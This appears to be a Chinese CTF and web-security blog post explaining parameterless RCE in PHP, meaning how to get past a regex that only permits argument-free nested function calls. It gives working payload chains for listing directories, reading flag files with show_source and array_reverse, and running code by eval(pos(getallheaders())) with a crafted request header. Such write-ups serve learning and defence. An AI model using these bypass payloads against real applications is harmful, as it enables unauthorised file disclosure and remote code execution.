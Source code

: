 ```yaml
---
title: 无参数RCE
date: 2020-09-20 17:00:00
categories: 
  - web安全
  - ctf
keywords:
  - 无参数RCE
tags:
  - 无参数RCE

---
```


## 代码解析

```php
preg_replace('/[^\w]+\((?R)?\)/', '', $_GET['code'])
```

`\w`意思是匹配字母数字和下划线，`(?R)?`的意思是递归整个匹配模式。

所以正则的含义就是匹配无参数的函数，而且内部可以无限嵌套相同的模式。

## 无参数任意文件读取

### 查看当前目录文件名

`print_r(scandir('.'));`可以用来查看当前所有文件名，但是这里包含了参数，这里介绍几个方法。

1. **localeconv()**

`localeconv()`返回一包含本地数字及货币格式信息的数组。而数组的第一项就是"."。

![](https://pic4.zhimg.com/80/v2-a589d3830e15875d2429f6f1c02c7900_720w.jpg)

这里的点有了，但是如何获取它呢？

`current()`返回数组中的单元，默认取第一个值：

![](https://picb.zhimg.com/80/v2-ff42485e2f4cc1889ea864afce818334_720w.jpg)

`print_r(scandir(current(localeconv())));`成功打印出当前目录下文件：

![](https://pic4.zhimg.com/80/v2-14b86a47bcb6797f07c3940199a5f2b0_720w.jpg)

但是当`current()`被过滤的时候，可以使用`pos`，如果还被过滤，还可以使用`reset()`，该函数返回第一个单元的值。

2. chr(46)

`chr(46)`就是字符"."

要构造46，有几个方法：

> chr(rand()) //不实际，看运气
>
> chr(time())
>
> chr(current(localetime(time())))

* chr(time())

`chr()`函数以256为一个周期，所以`chr(46),chr(302),chr(558)`都等于`"."`，所以使用`chr(time())`，一个周期必定出现一次`"."`

* chr(current(localetime(time())))

数组第一个值每秒+1，所以最多60秒就一定能得到46，用`current(pos)`就能得到`"."`

![](https://picb.zhimg.com/80/v2-8a73a41c753ee1467be6c79aaedf592d_720w.jpg)

3. phpversion()

`phpversion()`返回php版本，如5.5.9

`floor(phpversion())`返回5

`sqrt(floor(phpversion()))`返回2.2360679774998

`tan(floor(sqrt(floor(phpversion()))))`返回-2.1850398632615

`cosh(tan(floor(sqrt(floor(phpversion())))))`返回4.5017381103491

`sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回45.081318677156

`ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回46

![](https://pic1.zhimg.com/80/v2-905df3c592def0df1948318b4223b6e6_720w.jpg)

`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回"."

### 读取当前目录文件

前面的方法是输出的是数组，文件名是数组的值，而我们需要读取文件的数组：

![](https://pic4.zhimg.com/80/v2-497feb96f8aa8b625221220b685373eb_720w.jpg)

有了这些方法之后，我们就可以利用`show_source(),readfile(),highlight_file(),file_get_contents()`等文件函数都可以(使用`readfile`和`file_get_contents`读取的文件显示在源码处)

ps:`readfile()`也可以读文件，常用于绕过过滤

我们添加`zflag.php`使其排序在`index.php`后成为最后一个文件

![](https://pic1.zhimg.com/80/v2-eb686ac068097f63b3bcc1f9fd1e63b1_720w.png)

![](https://pic3.zhimg.com/v2-6eadae68a3822254f0cd5193039901e8_r.jpg)

再介绍一个函数：`array_reverse()`以相反的元素顺序返回数组

`zflag.php`本来在最后一位，反过来就成为第一位，可以直接用`current(pos)`读取

```php
show_source(current(array_reverse(scandir(getcwd()))));
```

![](https://pic1.zhimg.com/80/v2-c82083833f45395fa0902a2b563aa1f9_720w.jpg)

如果是倒数第二个我们可以用：

```php
show_source(next(array_reverse(scandir(getcwd()))));
```

如果不是数组的最后一个或者倒数第二个呢？

还可以使用

```php
array_rand(array_flip(scandir(getcwd())));
```

或者：

```php
show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

## 无参数命令执行(RCE)

既然传入的`code`值不能含有参数，那我们可以把参数放在别的地方，`code`用无参数函数来接受参数。

首先想到`headers`，因为`headers`我们用户可控，于是在`php`手册中搜索：`headers`

![](https://pic2.zhimg.com/80/v2-38e7b29d4b5d1881094fc9140e0af7f9_720w.jpg)

### getallheaders()&apache_request_headers()

`getallheaders()`是`apache_request_headers()`的别名函数，但是该函数只能在`Apache`环境下使用![](https://pic1.zhimg.com/80/v2-aa4f8adf4e9a6492247feac2129f62a2_720w.jpg)

这样的话，任何头部都可以利用：

![](https://pic3.zhimg.com/80/v2-7fe48549b1dbbac372da5c033bacefe7_720w.png)

```php
?code=eval(pos(getallheaders()));
//header
Leon: phpinfo();
```

![](https://pic1.zhimg.com/80/v2-b8952c9e4f6ff48161e4459aeaf2f125_720w.jpg)

因为这里`Leon:phpindfo();`排在第一位，所以直接用`pos(current的别名)`取第一个数组的值

![](https://pic4.zhimg.com/80/v2-1bfe188cda410d9b9b342ad9363eb0f8_720w.jpg)

当然，在系统函数没有禁用的情况下，我们还可以直接使用系统函数：

![](https://picb.zhimg.com/80/v2-f76c73ec8b329736a71f54ada4caca02_720w.jpg)

根据位置的不同，可以结合前文，构造获取不同位置的数组